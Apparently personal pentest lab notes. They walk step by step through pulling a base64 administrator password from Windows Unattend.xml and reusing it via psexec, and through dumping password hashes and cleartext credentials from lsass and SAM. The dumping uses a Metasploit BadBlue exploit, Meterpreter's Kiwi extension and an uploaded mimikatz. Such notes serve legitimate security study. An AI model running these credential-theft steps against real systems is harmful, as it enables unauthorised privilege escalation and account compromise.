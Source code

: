 		- cd to C:\\Windows\\Panther\\Unattend.xml
		- dir 
		- download unattend.xml 
		- go into new window outside Metasploit 
	- in new terminal locate the file that you downloaded from victim
		- cat unattend.xml
		- look for user credentials  (autologon)
		- the password (plaintext is false) is in base64 
		- we create a new file: vim password.txt 
			- paste the base64 password, quit 
		- use base64 package: base64 -d password.txt 
		- test the password: psexec.py Administrator@targetip 
			- enter password 
			- whoami 

Administrators often forget to delete these kind of files. Hackers can use these files to attain privileged account by getting the password from Unattended Windows Setup utility configuration file

### Dumping Hashes With mimikatz 

Mimikatz 
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems
that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.
- Note: Mimikatz will require elevated privileges in order to run correctly


Demo 
- perform nmap 
- start up mfsconsole 
- search exploit module for BadBlue 
- use the passthru , configure rhost, lhost and lport and exploit
- meterpreter session on the target system 
	- sysinfo 
	- getuid 
	- migrate to lsass.exe find processid: pgrep lsass - migrate to lsass
		- we need higher priviliges for lsass 
	- sysinfo (authority\\system is the highest privileges')
	- we will use kiki
		- load kiwi 
		- ?
		- attempt to retrieve credentials such as usernames, passwords, domain information, and NTLM hashes for logged-in users.: **creds_all** 
			- later versions of  windows  do not store cleartext passwords 
		- Mimikatz commands can be used to extract NTLM hashes via the LSA: **lsa_dump_sam** 
			- SAM is encrypted with syskey, also provided by kiwi 
			- specifically targets the SAM database to retrieve password hashes.
		- clear 
	- pwd 
	- navigate to C:\\\\ 
		- mkdir Temp 
		- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
		- open a command shell session: shell
			- dir 
			- execute mimikatz: .\\mimikatz.exe 
			- privilege::debug ![[Pasted image 20230707131337.png]]
							 if it is 20= you have required privileges to perform hash extraction from memory 
		- Mimikatz: lsadump::sam
			- RID 500 -> this is indeed administrator 
		- Mimikatz: lsadump::secret 
		- Mimikatz: sekurlsa::logonpasswords  ![[Pasted image 20230707132811.png]]